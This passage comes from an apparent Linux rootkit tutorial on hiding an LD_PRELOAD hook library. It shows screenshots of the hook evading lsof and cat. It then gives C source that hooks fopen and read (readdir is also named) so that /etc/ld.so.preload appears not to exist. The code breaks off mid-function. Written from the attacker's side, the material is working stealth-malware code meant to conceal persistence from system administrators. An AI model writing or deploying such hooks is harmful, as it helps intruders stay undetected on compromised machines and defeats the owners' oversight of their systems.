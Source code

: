 Example using `lsof`:

![imgur](https://i.imgur.com/iKfp6l0.png)

Example using `cat /etc/ld.so.preload`:

![imgur](https://i.imgur.com/RmLAF2K.png)

This is a simple solution, nothing too advanced, but it is quite effective.

## Hiding from /etc/ld.so.preload

As seen previously, the presented technique works, however, if you do `cat /etc/ld.so.preload`, as expected `hook.so` will not appear, however, if you use `nano`, for example, it will be seen there.

![imgur](https://i.imgur.com/TavmRkV.png)

And that's bad for us.

To do this, we will hook the `fopen`, `read` and `readdir` functions to hide the file `/etc/ld.so.preload`, making it "impossible" to open, read or list in directories, and also causing it to be non-existent, for example, if you do a `cat /etc/ld.so.preload`, it returns `No such file or directory`.

Here is a simple code in C:

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <dlfcn.h>
#include <errno.h>
#include <sys/stat.h>
#include <limits.h>
#include <dirent.h>

#define HIDDEN_FILE "/etc/ld.so.preload"

FILE *(*orig_fopen)(const char *pathname, const char *mode);
FILE *fopen(const char *pathname, const char *mode)
{
    if (!orig_fopen) {
        orig_fopen = dlsym(RTLD_NEXT, "fopen");
    }

    if (strcmp(pathname, HIDDEN_FILE) == 0) {
        errno = ENOENT;
        return NULL;
    }

    return orig_fopen(pathname, mode);
}

ssize_t read(int fd, void *buf, size_t count)
{
    static ssize_t (*orig_read)(int, void *, size_t) = NULL;

    if (!orig_read) {
        orig_read = dlsym(RTLD_NEXT, "read");
    }

    char path[PATH_MAX];
    snprintf(path, sizeof(path), "/proc/self/fd/%d", fd);
    char actual_path[PATH_MAX];
    ssize_t len = readlink(path, actual_path, sizeof(actual_path) - 1);
```